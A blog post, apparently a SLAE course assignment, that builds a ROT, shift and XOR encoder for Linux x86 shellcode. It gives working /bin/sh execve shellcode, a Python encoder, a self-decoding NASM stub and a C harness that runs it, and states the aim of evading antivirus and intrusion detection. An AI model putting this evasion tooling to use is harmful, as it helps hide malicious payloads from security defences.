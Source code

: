 ```yaml
---
layout: single
title: [ Rot-n + Shift-n + Xor-n] Shellcode Encoder - Linux x86
date: 2018-1-22
classes: wide
---
```


Introduction
------------
According to English dictionary, encode is converting something, such as a body of information from one system of communications to another; especially: to convert a message into code. This blog post will combine three basic encoding operations (more on that later) to encode sample shellcode and then decode/execute it to demonstrate the concept.

Encoder
-------
In this section, we’ll create 3-phase encoder that takes one byte of given shellcode at a time, mangle it and then produce an encoded word (2 bytes). The following will describe what each phase will do. Phase I (ROT-N), in this phase we add number N to shellcode byte. Phase II (Shift-N), in this phase we shift `stdout` from phase one to left by N. Phase III (XOR-N), here we just XOR `stdou`t from phase two to get the final encoded word. Before we start working on the encoder, let’s write shellcode that spawn shell to test with.

```nasm
global _start			

section .text

_start:
    ;
    ; execve() code block
    ;
    xor eax,eax       ; initiliaze EAX
    push eax          ; push null terminator
    push 0x68732f2f   ; push /bin//sh
    push 0x6e69622f
    xchg ebx,esp      ; save stack pointer to EBX
    mov al,0xb        ; __NR_execve 11
    int 0x80          ; ping kernel!
```

Let’s compile `execve()` code block and then dump shellcode.

```sh
ihack4falafel@ubuntu:~$ nasm -f elf32 -o sh.o sh.nasm 
ihack4falafel@ubuntu:~$ ld -z execstack -o sh sh.o
ihack4falafel@ubuntu:~$ objdump -d ./sh|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xdc\xb0\x0b\xcd\x80"
ihack4falafel@ubuntu:~$ 
```

We’ll create python script that takes ROT, Shift, and XOR as user input and print original and encoded shellcode, please note you still need to update the shellcode inside the script to your liking. For this post, we’ll use the one created earlier.  It’s worth noting that the script shift operation number can only be anything between 1 and 8 bits due to `encoded_shellcode` size (word) in the decoder. Also, we’ve added XOR input value to the end of the encoded shellcode as terminator, so if XOR operation in the decoder results in zero that means hey stop decoding.

```python
#!/usr/bin/python
#---------------------------------------------------------------------------------------------#
# Script        = Encoder.py                                                                  #
# SLAE-ID       = SLAE-1115                                                                   #
# Description   = [ROT-N + SHL-N + XOR-N] Encoder                                             #
# Date          = 1/19/2018                                                                   #
# Author        = @ihack4falafel                                                              #
# Usage         = python Encoder.py <ROT number> <number of bits to shift> <XOR number>       #
#---------------------------------------------------------------------------------------------#

import sys

# Colors 
#---------------#---------#
W  = '\033[0m'  # White   #
P  = '\033[35m' # Purple  #
Y  = '\033[33m' # Yellow  #
#---------------#---------#

# Check ROT, SHL, and XOR input, otherwise print usage, example, and important notes!
if len(sys.argv) < 4:
  print Y+ "Usage               :" + P+  " python Encoder.py <ROT number> <number of bits to shift> <XOR number>  " +W
  print Y+ "Example             :" + P+  " python Encoder.py 13 1 1337                                            " +W
  print Y+ "Notes               :" + P+  " 1) Make sure to update Decoder.nasm with input values.                 " +W
  print    "                     " + P+  " 2) Due to encoded_shellcode size (word) in Decoder.nasm, shift operatio" +W
  print    "                     " + P+  "    n is limited to <1-8> bits. Feel free to upgrade size to DW to allow" +W
  print    "                     " + P+  "    up to 16-bits shift operation.                                      " +W
  print    "                     " + P+  " 3) Encoder.py currently include /bin/sh shellcode as proof of concept. " +W
  print    "                     " + P+  "    Make sure to change it to your desired shellcode.                   " +W
  sys.exit(0)

ROT     = int(sys.argv[1])
nbits   = int(sys.argv[2])
XOR     = int(sys.argv[3])

# initial values   
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xdc\xb0\x0b\xcd\x80")           # paste your shellcode here
XOR_HEX = hex(XOR)                                                                                     # Encoded shellcode terminator     
encoded_shellcode  = "" 
original_shellcode = ""

# Orginal shellcode formatted
for x in bytearray(shellcode):
  original_shellcode += '0x'
  original_shellcode += '%02x, ' %x

# [ROT-N + SHL-N + XOR-N] encoded shellcode formatted   
for y in bytearray(shellcode):  
  byte = (y + ROT)%256                                                                                  #|-->ROT-N               
  byte = byte << nbits                                                                                  #########|-->SHL-N
  byte = byte ^ XOR                                                                                     #################|-->XOR-N	                                                                                  
  encoded_shellcode += '0x'
  encoded_shellcode += '%02x, ' %byte

# print original and encoded shellcode
print Y+ "Original Shellcode: " + P+ original_shellcode              +W
print Y+ "Encoded Shellcode : " + P+ encoded_shellcode  + Y+ XOR_HEX +W
```

Generate encoded shellcode.

```sh
ihack4falafel@ubuntu:~$ python Encoder.py 13 1 1337
Original Shellcode: 0x31, 0xc0, 0x50, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x87, 0xdc, 0xb0, 0x0b, 0xcd, 0x80, 
Encoded Shellcode : 0x545, 0x4a3, 0x583, 0x5d3, 0x541, 0x541, 0x439, 0x5d3, 0x5d3, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x411, 0x4eb, 0x443, 0x509, 0x48d, 0x423, 0x539
ihack4falafel@ubuntu:~$
```

Decoder
-------
Now comes the decoding part, let’s write code that basically takes encoded shellcode produced earlier , decode it in reverse order and then execute.

```nasm
global _start

section .text

_start:
    ;
    ; [ROT-N + SHL-N + XOR-N] encoded execve() code block
    ;
    jmp short call_decoder       ; jump to call_decoder to save encoded_shellcode pointer to ESI
	
decoder:

    pop esi                      ; store encoded_shellcode pointer in ESI
    push esi                     ; push encoded_shellcode pointer to stack for later execution
    mov edi, esi                 ; move encoded_shellcode pointer to EDI

decode:
    ;
    ; note: 1) Make sure ROT, SHR, and XOR here match your encoder.py input.
    ;       2) Hence we're limited by the size of encoded_shellcode (word),
    ;          SHR is limited to <1-8> bits. Feel free to upgrade size to DW 
    ;          to allow up to 16-bits shift if need be.
    ;
    mov ax, [esi]                ; move current word from encoded_shellcode to AX
    xor ax, 0x539                ; XOR encoded_shellcode with 1337, one word at a time  
    jz decoded_shellcode         ; if zero jump to decoded_shellcode
    shr ax, 1                    ; shift encoded_shellcode to right by one bit, one word at a time	
    sub ax, 13                   ; substract 13 from encoded_shellcode, one word at a time
    mov [edi], al                ; move decoded byte to EDI	
    inc esi                      ; point to the next encoded_shellcode word
    inc esi
    inc edi                      ; point to the next decoded_shellcode byte
    jmp short decode             ; jump to decode and repeat the decoding process for the next word!

decoded_shellcode:
    call [esp]                   ; execute decoded_shellcode

call_decoder:
    call decoder
    encoded_shellcode: dw 0x545, 0x4a3, 0x583, 0x5d3, 0x541, 0x541, 0x439, 0x5d3, 0x5d3, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x411, 0x4eb, 0x443, 0x509, 0x48d, 0x423, 0x539
```

Compile and dump shellcode.

```sh
ihack4falafel@ubuntu:~# nasm -f elf32 -o Decoder.o Decoder.nasm 
ihack4falafel@ubuntu:~# ld -z execstack -o Decoder Decoder.o
ihack4falafel@ubuntu:~# objdump -d ./Decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x1e\x5e\x56\x89\xf7\x66\x8b\x06\x66\x35\x39\x05\x74\x0e\x66\xd1\xe8\x66\x83\xe8\x0d\x88\x07\x46\x46\x47\xeb\xe9\xff\x14\x24\xe8\xdd\xff\xff\xff\x45\x05\xa3\x04\x83\x05\xd3\x05\x41\x05\x41\x05\x39\x04\xd3\x05\xd3\x05\x41\x05\xe7\x05\xd5\x05\xcf\x05\x11\x04\xeb\x04\x43\x04\x09\x05\x8d\x04\x23\x04\x39\x05"
ihack4falafel@ubuntu:~#
```

Add it to final exploit.

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x1e\x5e\x56\x89\xf7\x66\x8b\x06\x66\x35\x39\x05\x74\x0e\x66\xd1\xe8\x66\x83\xe8\x0d\x88\x07\x46\x46\x47\xeb\xe9\xff\x14\x24\xe8\xdd\xff\xff\xff\x45\x05\xa3\x04\x83\x05\xd3\x05\x41\x05\x41\x05\x39\x04\xd3\x05\xd3\x05\x41\x05\xe7\x05\xd5\x05\xcf\x05\x11\x04\xeb\x04\x43\x04\x09\x05\x8d\x04\x23\x04\x39\x05";

void main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

Demo time


[![Encoder/Decoder Demo](https://github.com/ihack4falafel/ihack4falafel.github.io/blob/master/assets/images/chmod.png)](https://player.vimeo.com/video/252202488?dnt=1&app_id=122963 "Click to Watch!")

Closing Thoughts
----------------
I believe learning shellcode encoding is essential to exploit development, in order to evade modern anti-viruses and/or intrusion detection/prevention systems. Please note all of the code in this post were tested on Ubuntu 12.04.5 LTS. Feel free to contact me for questions via twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1115

Github Repo: [https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%204](https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%204)
